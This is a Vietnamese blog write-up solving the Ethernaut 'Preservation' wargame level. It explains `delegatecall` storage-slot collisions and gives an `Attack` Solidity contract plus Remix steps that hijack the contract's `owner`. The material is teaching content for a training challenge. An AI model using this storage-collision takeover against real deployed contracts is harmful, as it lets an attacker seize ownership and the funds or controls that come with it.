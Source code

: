 ```yaml
---
layout: post
title: 'The Ethernaut: 16 - Preservation'
mathjax: true
---
```


# 16. Preservation 　 ★★★★★★

**Nhiệm vụ**: chiếm quyền owner

```js
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress;
    timeZone2Library = _timeZone2LibraryAddress;
    owner = msg.sender;
  }

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## Solution

Có 2 điều ta cần nắm được về `delegatecall`:

**Điều thứ nhất**: `delegatecall` chỉ là mượn hàm từ một contract khác và gọi hàm đó trong contract của mình.

Để diễn giải điều này, ta xét một ví dụ có thể coi là kinh điển về `delegatecall`, search google phát thấy ngay

```js
contract D {
  uint public n;
  address public sender;

  function delegatecallSetN(address _e, uint _n) {
    _e.delegatecall(bytes4(sha3("setN(uint256)")), _n); // D's storage is set, E is not modified
  }
}

contract E {
  uint public n;
  address public sender;
  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

Trong contract E ta có một hàm là hàm `setN` sẽ thay đổi giá trị của `n` và `sender`. Trong contract D ta gọi hàm `_e.delegatecall(bytes4(sha3("setN(uint256)")), _n);`, điều này tương đương với việc ta chuyển hàm setN vào bên trong contract D như sau:

```js
contract D {
  uint public n;
  address public sender;

  function delegatecallSetN(uint _n) {
    setN(_n);
  }

  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

**Điều thứ hai**: khi gọi `delegatecall`, các biến của hàm trong contract E sẽ là _biến với slot tương ứng_ của contract D, không cần quan tâm đến tên biến và kiểu dữ liệu.

Ví dụ như bên trên, giả sử ta đổi tên biến và kiểu dữ liệu trong contract D như sau:

```js
contract D {
  address public addr;
  bytes20 public mess;

  function delegatecallSetN(address _e, uint _n) {
    _e.delegatecall(bytes4(sha3("setN(uint256)")), _n); // D's storage is set, E is not modified
  }
}

contract E {
  uint public n;
  address public sender;
  function setN(uint _n) {
    n = _n;
    sender = msg.sender;
  }
}
```

khi này trong D, nếu ta gọi `_e.delegatecall(bytes4(sha3("setN(uint256)")), _n);` thì `addr` sẽ được gán cho giá trị của `_n`, tất nhiên có ép kiểu từ `uint` sang `address`, còn `mess` sẽ được gán cho giá trị của `msg.sender`, ép kiểu từ `address` qua `bytes20`.

Các bạn hãy tự test thử trên RemixIDE để hiểu rõ hơn.

Ok vậy là ta đã hiểu về `delegatecall`, trong bài này ta sẽ áp dụng thế nào ?

Cùng nhìn qua contract `LibraryContract`

```js
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

Contract này có một slot duy nhất chứa `storedTime`, do đó nó sẽ tương ứng với slot của `timeZone1Library` trong contract `Preservation` nếu ta gọi `setTime` bằng `delegatecall`. Điều này có ý nghĩa thế nào?

```js
function setFirstTime(uint _timeStamp) public {
  timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
}
```

nó có nghĩa là nếu ta gọi `setFirstTime` thì `timeZone1Library` sẽ được gán bởi `_timeStamp` một lần duy nhất, vì sau đó địa chỉ `timeZone1Library` sẽ trở thành địa chỉ `_timeStamp` rồi.

```js
function setSecondTime(uint _timeStamp) public {
  timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
}
```

nó có nghĩa là nếu ta gọi `setSecondTime` thì `timeZone1Library` sẽ được gán lại bởi giá trị `_timeStamp` bất cứ khi nào gọi hàm

Từ ý nghĩa này, ta có kịch bản tấn công như sau:

- Thay `timeZone1Library` bằng địa chỉ contract tấn công.
- Do trong contract `Preservation`, biến `owner` ứng với slot thứ 3, nên trong contract tấn công ta sẽ có 3 biến, theo đó nếu gọi bằng `delegatecall`, slot thứ 3 sẽ tương tứng với `owner` trong `Preservation`.
- Trong contract tấn công cũng phải có hàm `setTime` y như `timeZone1Library` và `timeZone2Library`, trong hàm này ta sẽ tiến hành đổi owner sang chính mình (tx.origin)
- Contract tấn công sẽ như sau

```js
contract Attack {
  address public slot1;
  address public slot2;
  address public owner;

  function setTime(uint _time) public {
    owner = tx.origin;
  }
}
```

**Note**: Trong các giao dịch, nhớ cho `gasLimit` cao một chút để tránh bị hết gas

- Trên Remix IDE, load contract `Preservation`

![png]({{site.url}}/assets/images/preservation.png)

- Trên Remix IDE, deploy contract `Attack`

![png]({{site.url}}/assets/images/preservation-attack.png)

- Tại `Preservation`, gọi hàm `setFirstTime` với giá trị là địa chỉ của contract `Attack`, đã được convert ra uint256

![png]({{site.url}}/assets/images/preservation-setfirsttime-1.png)

- Tại `Preservation`, gọi hàm `setFirstTime` lần thứ 2 với giá trị bất kì

![png]({{site.url}}/assets/images/preservation-setfirsttime-2.png)

- Kiếm tra lại xem owner đã là mình chưa ?

![png]({{site.url}}/assets/images/preservation-owner.png)

- Submit & all done!

![completed]({{site.url}}/assets/images/ethernaut-completed.png)

## Bình luận

`delegatecall` và `storage` chưa bao giờ là dễ cả!

Enjoy coding!

